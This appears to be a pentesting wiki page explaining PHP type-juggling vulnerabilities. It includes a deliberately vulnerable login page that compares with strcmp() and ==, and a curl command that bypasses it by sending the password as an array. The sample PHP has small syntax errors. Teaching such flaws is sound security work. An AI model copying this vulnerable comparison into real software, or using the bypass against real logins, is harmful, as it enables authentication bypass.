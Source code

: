 # PHP vulnerabilities

## Type Juggling <a href="#f31f" id="f31f"></a>

### Theory

Like Python and Javascript, PHP is a dynamically typed language. This means that variable types are checked as the program executes. Dynamic typing allows developers to be more flexible when using PHP. But this kind of flexibility sometimes causes unexpected errors in the program flow and can even introduce critical vulnerabilities in the application.

PHP provides two ways to compare two variables:

* Loose comparison using `==` or `!=` : Both variables have "the same value".
* Strict comparison using `===` or `!==` : Both variables have "the same type and the same value".

PHP type juggling vulnerabilities arise when a loose comparison (`==` or `!==`) is used instead of a strict comparison (`===` or `!==`) in an area where the attacker can control one of the variables being compared. This vulnerability can cause the application to return an unintended response to the true or false statement, and can lead to serious authorization and/or authentication errors.

### Practice

{% tabs %}
{% tab title="PoC #1" %}
```php
<html>
    <font color="red"><h1><marquee>Secure Login Page</marquee></h1></font>
    <hr>
    <body style="background-color:powderblue">
    <center><form method="POST" name="<?php basename($_SERVER['PHP_SELF']); ?>">
        User: <input type="text" name="user" id="user' size="30">
        &nbsp;
        Password: <input type="password" name="password" id=password" size="30">
        <input type="submit" value="Login">
    </form></center>

    <?php
        $USER "admin";
        $PASSWORD = "4st4p4sswOrd!3simpOsiblederomper!$2020..";
        if(isset($_POST['user']) && isset($_POST['password'])){
            if($_POST['user'] == $USER){
                if(strcmp($_POST['password'], $PASSWORD) == 0){
                    echo "Guaranteed access! The PIN is 4671";
                } else { echo "The password is incorrect!"; }
            else { echo "The user is incorrect!"; }
        }
    ?>
    </body>
</html>
```

```bash
curl -s -X POST -d "user=admin&password[]=asd" http://localhost/login.php
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09" %}
